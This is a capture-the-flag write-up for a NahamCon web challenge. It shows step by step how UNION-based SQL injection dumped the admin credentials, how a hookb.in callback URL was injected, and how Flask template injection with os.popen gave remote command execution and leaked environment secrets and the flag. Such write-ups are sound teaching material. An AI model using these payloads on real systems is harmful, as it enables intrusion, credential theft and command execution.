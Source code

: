 # AgentTesterV1

The code of the aplication was provided and looking at the code we can see that is vulnerable to sql injection (Later i discovered that this wasnt really necessary because the tables names can be checked in the aplication files but hey, is cool):

`SELECT userAgent, url FROM uAgents WHERE userAgent = '%s'`


Lets get the tables names:
`' UNION SELECT name, name FROM sqlite_master WHERE type='table' --`
`' UNION SELECT name, name FROM sqlite_master WHERE type='table' and name!="uAgents"--`

Table names:
- uAgents
- user

The user table is what we want here i guess. Lets try this:

`' UNION SELECT username, password FROM user --`

And the page gave us: `Testing User-Agent: admin in url: *)(@skdnaj238374834**__**=` cool! So we now have the admin credentials:

```
admin:*)(@skdnaj238374834**__**=
```

Also we can use whatever endpoint and user agent we want:

`' UNION SELECT 'AgentTester v1','https://hookb.in/oXYJDgO6yzS1mmLaRZax' --`


Next, i noticed that the endpoint `/debug` exists (The challenge provided the code but im silly and didnt take a look until now). Looking at the app code, i noticed that it ask for a specific session ID, probably the admin user. I got the admin user so was not too hard to get access to it using Postman (Just copied the header `Cookie` from my browser to Postman). 

After some research, looks like we can inject flask under the key `code` with a POST form to the `/debug` endpoint. For example:

```
code:{{config}}

<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': '1L5&wnIh4!Rz6Ufo^iY?aRyV2qXM+kz5', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'auth', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'SQLALCHEMY_DATABASE_URI': 'sqlite:///DB/db.sqlite', 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'SQLALCHEMY_BINDS': None, 'SQLALCHEMY_NATIVE_UNICODE': None, 'SQLALCHEMY_ECHO': False, 'SQLALCHEMY_RECORD_QUERIES': None, 'SQLALCHEMY_POOL_SIZE': None, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SQLALCHEMY_POOL_RECYCLE': None, 'SQLALCHEMY_MAX_OVERFLOW': None, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_ENGINE_OPTIONS': {}}>
```

Funny. What about this:

```
code:{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

uid=1000(uwsgi) gid=0(root) groups=0(root)
```

So we have remote code execution. After some digging i found the flag listing all the envars of the machine:

```
code:{{request.application.__globals__.__builtins__.__import__('os').popen('printenv').read()}}

BASE_URL=challenge.nahamcon.com KUBERNETES_SERVICE_PORT=443 KUBERNETES_PORT=tcp://10.116.0.1:443 UWSGI_ORIGINAL_PROC_NAME=uwsgi HOSTNAME=agenttester-691977e06298952e-5c9d4d6f8f-ssqhz SHLVL=1 PYTHON_PIP_VERSION=21.0.1 PORT= HOME=/root GPG_KEY=E3FF2839C048B25C084DEBE9B26995E310250568 _=/usr/local/bin/uwsgi PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/b60e2320d9e8d02348525bd74e871e466afdf77c/get-pip.py KUBERNETES_PORT_443_TCP_ADDR=10.116.0.1 PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin KUBERNETES_PORT_443_TCP_PORT=443 KUBERNETES_PORT_443_TCP_PROTO=tcp LANG=C.UTF-8 CHALLENGE_FLAG=flag{fb4a87cfa85cf8c5ab2effedb4ea7006} PYTHON_VERSION=3.8.8 ADMIN_BOT_PASSWORD=*)(@skdnaj238374834**__**= KUBERNETES_SERVICE_PORT_HTTPS=443 KUBERNETES_PORT_443_TCP=tcp://10.116.0.1:443 CHALLENGE_NAME=AgentTester PWD=/app ADMIN_BOT_USER=admin KUBERNETES_SERVICE_HOST=10.116.0.1 PYTHON_GET_PIP_SHA256=c3b81e5d06371e135fb3156dc7d8fd6270735088428c4a9a5ec1f342e2024565 UWSGI_RELOADS=0
```

Flag: `flag{fb4a87cfa85cf8c5ab2effedb4ea7006}`
